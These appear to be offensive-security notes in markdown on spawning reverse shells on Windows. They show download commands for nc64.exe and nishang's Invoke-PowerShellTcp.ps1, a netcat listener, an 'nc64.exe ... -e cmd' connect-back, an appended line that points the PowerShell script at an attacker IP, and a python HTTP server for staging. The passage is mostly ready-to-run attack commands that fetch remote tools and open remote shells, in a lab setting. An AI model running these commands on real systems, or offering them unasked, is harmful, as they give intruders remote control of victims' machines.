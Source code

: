 ## CMD

To spawn a reverse shell with **cmd.exe** we can use the `ncat.exe` binary.

  First we download `ncat.exe`.
  - <https://github.com/int0x33/nc.exe/>

Windows
```cmd
iwr -uri "https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe" -Outfile nc64.exe
```

Then we setup a listener in our attacker machine.

Attacker 
```cmd
nc -lvnp 7777
```
- **l** - listen
- **v** - verbose
- Has to have a public, reachable IP. In this case we are on the same network as the VM.

And finally we connect to the attacker machine from the windows box, spawning a shell and attaching it to the TCP connection.

Windows
```cmd
C:\Users\Quickemu\Desktop\nc64.exe 192.168.122.1 7777 -e cmd
```
- **e** - execute

## Powershell

First is by using `Invoke-PowerShellTcp.ps1`.

- We can download it as follows into our attacker machine

```powershell
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```

- Then we add the following line into the script

```powershell
echo "Invoke-PowerShellTcp -Reverse -IPAddress <ATTACKER-IP> -Port <ATTACKER-PORT>" >> Invoke-PowerShellTcp.ps1
```

```powershell
echo "Invoke-PowerShellTcp -Reverse -IPAddress 192.168.122.1 -Port 7777" >> Invoke-PowerShellTcp.ps1
```

- Then we spawn an HTTP server

```sh
python3 -m http.server 1337
```
